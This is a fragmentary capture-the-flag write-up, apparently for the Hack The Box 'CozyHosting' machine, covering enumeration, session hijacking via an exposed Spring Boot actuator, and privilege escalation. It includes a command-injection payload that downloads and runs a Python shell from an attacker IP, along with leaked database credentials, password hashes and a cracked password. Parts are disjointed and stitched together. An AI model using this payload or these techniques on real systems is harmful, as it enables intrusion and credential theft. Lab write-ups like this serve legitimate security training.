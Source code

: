 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx cozyhosting.htb
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV cozyhosting.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# HTTP (port 80)
after investicating, it seems it is Spring Boot running (JSP Java Server Pages)
we found some url in actuator
```
200      GET        1l        1w       15c http://cozyhosting.htb/actuator/health
200      GET        1l        1w      495c http://cozyhosting.htb/actuator/sessions
200      GET        1l      120w     4957c http://cozyhosting.htb/actuator/env
200      GET        1l      542w   127224c http://cozyhosting.htb/actuator/beans
```

the url http://cozyhosting.htb/actuator/sessions is interesting because we have kaderson that have a open session with his JSESSIONID exposed
we stole the id session and can access the admin back office

htb.cloudhosting.CozyHostingApp$$SpringCGLIB$$0


usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]%20%20%20%20%20%20%20%20%20%20 [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]%20%20%20%20%20%20%20%20%20%20 [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]%20%20%20%20%20%20%20%20%20%20 [-i identity_file] [-J [user@]host[:port]] [-L address]%20%20%20%20%20%20%20%20%20%20 [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]%20%20%20%20%20%20%20%20%20%20 [-Q query_option] [-R address] [-S ctl_path] [-W host:port]%20%20%20%20%20%20%20%20%20%20 [-w local_tun[:remote_tun]] destination [command [argument ...]]


localhost
kanderson@127.0.0.1;curl${IFS}http://10.10.14.136:8000/shell.py${IFS}-o${IFS}/tmp/shell.py;python3${IFS}/tmp/shell.py;#


server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR


kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin


 FakeUser.class
 username=kanderson&password=MRdEQuv6~6P9

this password doesnt work

but if we crack the admin password we found it is : manchesterunited
it's the josh password, we can use it with ssh

now we do a sudo -l, we have right to run ssh as root
